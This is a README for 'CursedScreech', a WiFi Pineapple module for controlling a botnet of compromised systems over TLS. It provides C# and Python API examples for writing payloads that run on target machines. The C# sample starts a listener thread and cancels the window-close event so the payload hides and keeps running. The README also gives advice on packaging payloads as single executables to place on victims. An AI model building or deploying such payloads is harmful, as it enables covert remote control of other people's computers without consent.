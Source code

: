 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech.

Order of work left on this module:

1. ~~Finish C# API~~
2. ~~Write equivalent Python library~~
3. ~~Put finishing touches on web interface~~
4. ~~Test, Test, Test~~
5. ~~Finish documentation and video guide~~
7. ~~Release on Module Manager~~


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using CursedScreech;

namespace Payload
{
    public partial class Form1 : Form {

        public Form1() {
            InitializeComponent();

            CursedScreech.CursedScreech cs = new CursedScreech.CursedScreech();
            cs.startMulticaster("231.253.78.29", 19578);
            cs.setRemoteCertificateSerial("EF-BE-AD-DE");
            cs.setRemoteCertificateHash("1234567890ABCDEF");
            cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");

        }
        private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
            e.Cancel = true;
            this.Hide();
        }
    }
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
